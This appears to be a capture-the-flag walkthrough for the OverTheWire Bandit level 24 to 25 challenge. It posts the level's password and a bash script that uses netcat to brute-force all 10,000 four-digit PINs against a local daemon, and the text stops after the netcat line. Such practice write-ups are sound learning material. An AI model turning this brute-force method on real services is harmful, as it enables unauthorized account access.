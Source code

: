 
<img width="972" height="491" alt="Screenshot 2025-06-29 at 2 01 15 PM" src="https://github.com/user-attachments/assets/89925963-bea7-4264-880a-4007659c86b0" />

￼<img width="1163" height="145" alt="Screenshot 2025-06-29 at 2 01 29 PM" src="https://github.com/user-attachments/assets/e88833d7-1338-404a-8823-f59409caebd9" />

￼


Bandit Level 24 → Level 25
Level Goal
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing. You do not need to create new connections each time

1. Log in to bandit24 using SSH with the password gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8. → You are now inside the server as the user bandit24.
2. Create a temporary working directory using the command: mktemp -d → This will create something like /tmp/tmp.ABCD1234.
3. Move into the newly created directory: cd /tmp/tmp.ABCD1234
4. Create a file named brute.sh using any text editor like vim or nano.
5. Paste the following script into brute.sh:
#!/bin/bash

# Known password for bandit24
PASSWORD="gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8"

# Output files
COMBO_FILE="possibilities.txt"
OUTPUT_FILE="file.txt"

# Clean up any old files
rm -f "$COMBO_FILE" "$OUTPUT_FILE"

echo "[*] Generating password + PIN combinations..."

# Generate all combinations like: <password> <PIN>
for PIN in $(seq -w 0000 9999); do
    echo "$PASSWORD $PIN" >> "$COMBO_FILE"
done

echo "[*] All combinations saved to $COMBO_FILE"
echo "[*] Sending all 10,000 attempts through netcat..."

# Send all attempts in one go with a timeout (to avoid hanging)
cat "$COMBO_FILE" | timeout 15s nc localhost 30002 > "$OUTPUT_FILE"
